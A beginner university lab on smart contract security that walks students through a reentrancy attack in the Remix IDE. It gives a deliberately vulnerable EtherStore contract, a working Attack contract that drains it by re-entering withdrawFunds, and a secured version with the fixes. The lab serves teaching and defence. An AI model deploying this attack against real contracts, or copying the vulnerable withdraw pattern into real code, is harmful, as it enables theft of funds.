 # Module 9 - Beginner Lab: Smart Contract Security

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming, such as the [checks-effects-interactions pattern][checks-effects-interactions].

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Beginner. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines for which it is impractical to present the breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many other vulnerabilities which could be the focus of this lab instead. |

## Assignment Instructions
1. First, we begin by creating a contract with a simple purpose, such as temporarily holding Ether for the owner(s). Click the plus icon ![plus-icon.png](screenshots/plus-icon.png) in the upper left corner of [Remix][Remix] to create a new document and name it `EtherStore.sol`. Then copy and paste the following code into it:  
    [_EtherStore.sol_][EtherStore.sol]
    ```solidity
    contract EtherStore {

        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            require(msg.sender.call.value(_weiToWithdraw)());
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
        }
     }
    ```
    ![create-new-file](screenshots/create-new-file.png)  
    ![etherstore-created.png](screenshots/etherstore-created.png)
2. Click on the plugin icon ![plug-icon.png](screenshots/plug-icon.png) in the left-most pane of Remix.  
    ![left-icon-pane.png](screenshots/left-icon-pane.png)
3. Activate the `Deploy & Run Transactions` and `Solidity Compiler` plugins.
    ![plugins-to-activate.png](screenshots/plugins-to-activate.png)  
    You should see two new icons in the leftmost pane: one, the solidity compiler ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png), looks like an "s", and the other, deploy and run ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png), is the Ethereum symbol with an arrow to the right.  
    ![activated-plugin-icons.png](screenshots/activated-plugin-icons.png)
4. Click the solidity compiler plugin icon ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png).
5. Select compiler `0.4.26+commit.4563c3fc`.  
    ![compiler-version.png](screenshots/compiler-version.png)  
6. Click the `Compile EtherStore.sol` button ![compile-etherstore-button.png](screenshots/compile-etherstore-button.png) and wait for compilation to complete. For the purposes of this lab, you can safely ignore all (orange) warnings.  
    ![compile-etherstore.png](screenshots/compile-etherstore.png)  
7. Click the deploy-and-run plugin icon ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png).
8. Click the orange `Deploy` button ![orange-deploy-button.png](screenshots/orange-deploy-button.png).
9. A smart contract, **EtherStore** will be deployed to the blockchain. Click the arrow on the left of it to reveal its functions.  
    ![etherstore-deployed.png](screenshots/etherstore-deployed.png)  
    ![etherstore-functions.png](screenshots/etherstore-functions.png)
10. In the value box, type `10`, and in the dropdown box next to it, select `ether`.  
    ![value-box-with-ether.png](screenshots/value-box-with-ether.png)
11. Click the `depositFunds` function button ![deposit-funds-button.png](screenshots/deposit-funds-button.png) under the `EtherStore` deployed contract.  
    ![etherstore-functions.png](screenshots/etherstore-functions.png)
12. Notice that the selected account has been debited `10 ether` (as well as some gas fees for contract deployment and the deposit transaction), leaving `89.999... ether` from the original `100 ether`.  
    ![less-10-ether.png](screenshots/less-10-ether.png)
13. We then create an other contract to attack `EtherStore.sol`. Create a new contract named `Attack.sol`, and copy/paste the following code:  
    [_Attack.sol_][Attack.sol]
    ```solidity
    import "EtherStore.sol";

    contract Attack {
      EtherStore public etherStore;

      // intialize the etherStore variable with the contract address
      constructor(address _etherStoreAddress) {
          etherStore = EtherStore(_etherStoreAddress);
      }

      function attackEtherStore() public payable {
          // attack to the nearest ether
          require(msg.value >= 1 ether);
          // send eth to the depositFunds() function
          etherStore.depositFunds.value(1 ether)();
          // start the magic
          etherStore.withdrawFunds(1 ether);
      }

      function collectEther() public {
          msg.sender.transfer(this.balance);
      }

      // fallback function - where the magic happens
      function () payable {
          if (etherStore.balance > 1 ether) {
              etherStore.withdrawFunds(1 ether);
          }
      }
    }
    ```
    ![attack-created.png](screenshots/attack-created.png)  
14. In `Attack`, observe that whenever this contract's `attackEtherStore` function is called with a transaction amount >= 1 ether, it then calls the `EtherStore` contract’s `depositFunds` function, followed immediately by `EtherStore`'s `withdrawFunds` function. The `EtherStore` contract verifies the balance, owner, withdrawal amount, and time since last withdrawal are all okay and proceeds to pay the attacking contract. So far, everything seems okay; however, once the `EtherStore` contract pays the `Attack` contract, execution of the code flows into the `Attack` contract's fallback function (the function called when a contract is paid any amount). Inside the `Attack` contract's fallback function, `EtherStore`'s balance is checked, and provided there is ether remaining to steal, the `withdrawFunds` function is called again. The `Attack` contract has, in effect, caused execution to "reenter" the `EtherStore` contract's `withdrawFunds` function before it could update the values it checks to ensure everything is okay before paying out.
15. Click the clipboard icon ![clipboard-icon.png](screenshots/clipboard-icon.png) to the right of the deployed `EtherStore` contract to copy its address; we will need it to tell the `Attack` contract what to attack.  
    ![clipboard-surroundings.png](screenshots/clipboard-surroundings.png)
16. Repeat the previous compilation and deployment steps for the `Attack` contract, but just prior to deploying, we'll need to supply the `EtherStore` contract's address.
17. Paste the previously-copied `EtherStore` address into the box just to the right of the orange `Deploy` button ![orange-deploy-button.png](screenshots/orange-deploy-button.png).  
    ![address-pasted.png](screenshots/address-pasted.png)  
18. We can prevent an attack like this in a few different ways. One way is to use the built-in `transfer` function, which only sends 2300 gas, insufficient to allow the current execution to call the `withdrawFunds` function again. An other way is to use what's known as the [checks-effects-interactions pattern][checks-effects-interactions], which would have us move lines 18 and 19 to before line 17, so that updates to checked variables are done before interaction with an outside entity. One more way we could prevent this attack is with an additional state variable, called a mutex or mutual exclusion variable, which acts as a lock and prevents further execution from occurring until the current function exits (and resets the mutex). Including all three methods (though any one would work), we have a more-secure `EtherStore`, which we'll call `SecuredEtherStore`:  
    [_SecuredEtherStore.sol_][SecuredEtherStore.sol]
    ```solidity
    contract SecuredEtherStore {

        // initialize the mutex
        bool reEntrancyMutex = false;
        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(!reEntrancyMutex);
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
            // set the reEntrancy mutex before the external call
            reEntrancyMutex = true;
            msg.sender.transfer(_weiToWithdraw);
            // release the mutex after the external call
            reEntrancyMutex = false;
        }
     }
    ```

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
[EtherStore.sol]: EtherStore.sol
[Attack.sol]: Attack.sol
[SecuredEtherStore.sol]: SecuredEtherStore.sol
[checks-effects-interactions]: https://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern
